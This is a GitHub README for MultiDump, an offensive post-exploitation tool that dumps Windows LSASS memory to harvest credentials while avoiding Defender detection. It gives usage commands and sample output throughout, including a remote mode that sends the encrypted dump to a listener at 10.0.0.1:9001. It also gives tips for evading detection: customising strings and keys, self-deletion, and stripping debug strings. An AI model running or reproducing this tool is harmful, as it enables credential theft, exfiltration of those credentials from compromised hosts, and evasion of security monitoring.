

## MultiDump

### MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.



### Blog post: https://xre0us.github.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `Comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to current directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and uses it to dump LSASS
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 10.0.0.1:9001
```

As with all LSASS related tools, Administrator/SeDebugPrivilege priviledges are required.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MALDEV\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./ProcDumpHandler.py -f dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be writtern to disk to dump LSASS.

In remote mode, MultiDump connects to the handler's listener.

```bash
./ProcDumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommneded to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

### Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee